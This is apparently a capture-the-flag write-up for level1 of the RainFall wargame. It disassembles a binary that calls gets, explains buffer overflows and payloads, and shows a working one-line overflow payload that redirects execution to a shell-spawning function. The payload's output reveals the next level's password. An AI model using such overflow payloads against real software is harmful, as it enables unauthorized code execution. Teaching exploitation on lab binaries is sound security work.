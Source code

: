 ### Exploit

First, what do we see when we test the executable? On the face of it, the programme expects some user input and then leaves.
Indeed, there's not much more to it.

```
    (gdb) disas main
    Dump of assembler code for function main:
       0x08048480 <+0>:	push   ebp
       0x08048481 <+1>:	mov    ebp,esp
       0x08048483 <+3>:	and    esp,0xfffffff0
       0x08048486 <+6>:	sub    esp,0x50
       0x08048489 <+9>:	lea    eax,[esp+0x10]
       0x0804848d <+13>:	mov    DWORD PTR [esp],eax
       0x08048490 <+16>:	call   0x8048340 <gets@plt>
       0x08048495 <+21>:	leave
       0x08048496 <+22>:	ret
    End of assembler dump.
```
Thankfully, there's another function which isn't called anywhere in `main`-that is `run`. This function is interesting, as it makes a syscall and spawns a shell! However, how do we get to execute a function that's not called at all? This is when we first introduce the notion of "payload". An exploit is a piece of code written to take advantage of a particular vulnerability. A payload is a piece of code to be executed through said exploit. The exploit in our case is the well-known bufferover flow. Therefore, we want to write a payload which'll exploit this vulnerabilty. A buffer of size 76 is instantiated at the beginning of the programme. Giviing the programme a string bigger than said size will result in a segfault.

The address of `run` is `0x08048444`. 

```
    level1@RainFall:~$ python -c 'print "a"*76 + "\x44\x84\x04\x08"' > /tmp/payload
    level1@RainFall:~$ cat /tmp/payload - | ./level1
    Good... Wait what?
    cat /home/user/level2/.pass
    53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Most upcoming exploits look like this one, more or less, so let's keep this mind.
